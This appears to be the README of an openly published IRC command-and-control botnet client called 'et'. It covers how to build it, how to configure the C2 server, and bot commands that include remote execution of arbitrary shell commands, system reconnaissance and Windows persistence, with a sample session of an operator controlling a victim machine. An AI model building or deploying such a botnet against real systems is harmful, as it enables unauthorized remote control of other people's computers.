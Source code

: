 et - the extraterrestrial botnet
===

### What is it?
`et` is a dumb client to an IRC command-and-control server.

When activated, it "phones home" and awaits instructions from members of an IRC channel.

It can be instructed to retrieve system information and execute commands, among other things.

### Compilation

**IMPORTANT**: Many binary size reduction methods are not applied by default during *nix builds due to the wide variety of utilities/flags that provide that
functionality on different systems. For example, standard symbol stripping (-s) is not applied because OS X no longer uses (-s) to strip symbols.
To add your own size-optimization flags, either edit the makefile or feed them in by assigning to `LDFLAGS_NIX` while calling `make`.
In addition, on Windows, you can try using a third-party tool like [UPX](http://upx.sourceforge.net/) to further reduce executable size.

#### On *nix systems (Linux, BSD, OS X):
```bash
$ git clone https://github.com/woodruffw/et && cd et
$ make nix # compiles et in ./bin
```

#### On Windows:
Building on Windows requries `make` and `gcc`, both of which can be obtained through the [MinGW](http://www.mingw.org/) project.

Download the tarball, extract it somewhere, and run `mingw32-make` inside of that directory in CMD.exe. The `et.exe` binary will be left in "bin".


**IMPORTANT**: Do not actually run the resulting `et` binary, as it *WILL* open your computer to attack.

### Configuration

Many of `et`'s features can be configured in the *cnc_info.h* file under *./src*.

For example:
```C
#define IRC_SERVER "irc.example.com"
#define IRC_PORT 6667
#define IRC_CHANNEL "#yourchannel"
#define IRC_REPORT "hello!"
#define IRC_AUTH "super secret password"
```

Any changes made require recompilation.

### Usage
Controlling the `et` bots from the IRC server is very simple.

When each bot connects, it sends out a channel-wide message of the format:
```
et0000000: et0000000 phoning home
```

From that point on, the bot is ready to receive commands. There are a few built-in commands:
* `auth <password>` - Requests authorization to control the bot. If the password matches `IRC_AUTH` in *cnc_info.h*, authorization is granted.
* `deauth` - Deauthorizes control of the bot unconditionally. Once deauthorized, the bot may not execute any command but `auth`.
* `info` - Outputs a digest of system information. Supplied by `uname(3)` on Unix and Linux and `GetVersionEx` on Windows.
* `popup <message>` - **CURRENTLY WINDOWS ONLY**. Display a popup message on the client's screen.
* `persist` - **CURRENTLY WINDOWS ONLY**. Ensures that the `et` executable, if killed, will restart on the next login. 
* `depersist` - **CURRENTLY WINDOWS ONLY**. Does the opposite of `persist`, removing `et`'s persistence after logout.
* `kill` - Disconnects the bot from the IRC server. Unless scheduled otherwise on the system, the bot will never reconnect.

Aside from these four commands, all other commands passed to an `et` are passed directly to `popen(3)` (`_popen()` on Windows).

By default `deauth`, `info`, `kill`, and all other commands are restricted until the bot is authorized with `auth`.

Some examples, all from the IRC prompt:
```
et0000000: et0000000 phoning home
/msg et0000000 auth et-phone-home
et0000000: Successfully authorized. et0000000 listening.
/msg et0000000 info
et0000000: [some information]
/msg et0000000 pwd
et0000000: [the current working directory]
/msg et0000000 popup hello, i'm controlling your computer
/msg et0000000 kill
*et0000000 has quit ()
```

Currently, output from system commands is limited to approximately 512 characters. 

### Proof of Concept
The original PoC Python script can be found under *./src/poc/et.py*. Like the actual version, it does work and *WILL* expose your machine.

### Theoretical Limits
Because the IRC protocol limits nicks to 9 characters, only so many `et`s can operate within a single channel.

By default, the first two characters of an `et`'s nick will always be 'et,' meaning that at most 10 million `et`s can exist within a channel.
Furthermore, because I got lazy with the Windows version, the ID on Windows machines can only be in the range [0, (32768 << 8)] for a total number of 8,388,609 possible IDs on Windows.
Of course, because the trailing numbers are pseudorandom and not sequential, the actual point of collision is likely to be much lower than 10 million (or 8,388,609 for that matter).
On the other hand, `et` can be configured to "phone home" to other servers and channels, making the limit less relevant in practice.

### TODO
* Reduce binary size
* Limit message output to 510 characters (+ CR-LF) as per RFC 2812
* Prevent Windows CMD popups
* Add more built-in commands

### Contributing

`et` is licensed under the MIT licence. 

Please feel free to issue merge requests, even for small things. I appreciate all contributions.